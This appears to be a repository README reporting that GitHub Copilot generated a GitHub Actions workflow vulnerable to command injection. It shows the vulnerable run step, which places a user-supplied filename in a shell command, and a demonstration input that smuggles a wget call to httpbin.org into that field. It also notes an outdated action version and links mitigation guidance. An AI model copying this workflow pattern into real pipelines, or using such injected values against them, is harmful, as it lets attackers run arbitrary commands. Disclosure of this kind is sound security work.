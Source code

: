 # copilot-gha-vul-command-injection

Today 2024-12-18, GitHub copilot is [General Availabe](https://github.blog/changelog/2024-12-18-copilot-chat-on-github-is-now-generally-available-for-all-users/), anyone can use GitHub Copilot for free at https://github.com/copilot or with editor like VSCode.

Using the latest model GPT 4o, I tried to create a GitHub action to run a command with user input. The generated code at https://github.com/hvnsweeting/copilot-gha-vul-command-injection/blob/main/.github/workflows/run-python-script.yml , main part:

```yaml

    - name: Run Python script
      run: python main.py ${{ github.event.inputs.filename }}

    - name: Create Pull Request
      uses: peter-evans/create-pull-request@v3

```
 could work after some modifcation i.e. [allow action to WRITE](https://github.com/ad-m/github-push-action/issues/96#issuecomment-889984928), it has serious security issues:


![vscode](vscode.png)

## Command injection
Users who can run the action (e.g in an org) can execute any command by add `; command` to the filename input. For example here run with filename

```
input.txt; wget -O- https://httpbin.org/get
```

and result is


```

Run python main.py input.txt; wget -O- https://httpbin.org/get
  python main.py input.txt; wget -O- https://httpbin.org/get
  shell: /usr/bin/bash -e {0}
  env:
    pythonLocation: /opt/hostedtoolcache/Python/3.12.8/x64
    LD_LIBRARY_PATH: /opt/hostedtoolcache/Python/3.12.8/x64/lib
--2024-12-19 13:42:12--  https://httpbin.org/get
Resolving httpbin.org (httpbin.org)... 34.226.108.155, 98.85.100.80
Connecting to httpbin.org (httpbin.org)|34.226.108.155|:443... connected.
HTTP request sent, awaiting response... 200 OK
...
```
https://github.com/hvnsweeting/copilot-gha-vul-command-injection/actions/runs/12413871568/job/34656690134

This vul is so popular, it is always on top 10 OWASP https://owasp.org/www-community/attacks/Command_Injection
that's maybe the reason Copilot **learned** it.

## Use old version of action

```
create-pull-request@v3
```
Current version is v7

v3 was released `Feb 28, 2022`, there were 366 commits between them https://github.com/peter-evans/create-pull-request/compare/v3...v7

### Mitigation

While this is buried under "Security" section of GitHub Action docs, user who use GitHub copilot likely won't ever open it.

https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions#example-of-a-script-injection-attack


## Conclusion
### Should not trust Copilot than anyone on internet :joy:
### Work with GitHub action is painful :cry:

## Futher readings
- https://securitylab.github.com/resources/github-actions-untrusted-input/
- https://www.kenmuse.com/blog/github-actions-injection-attacks/
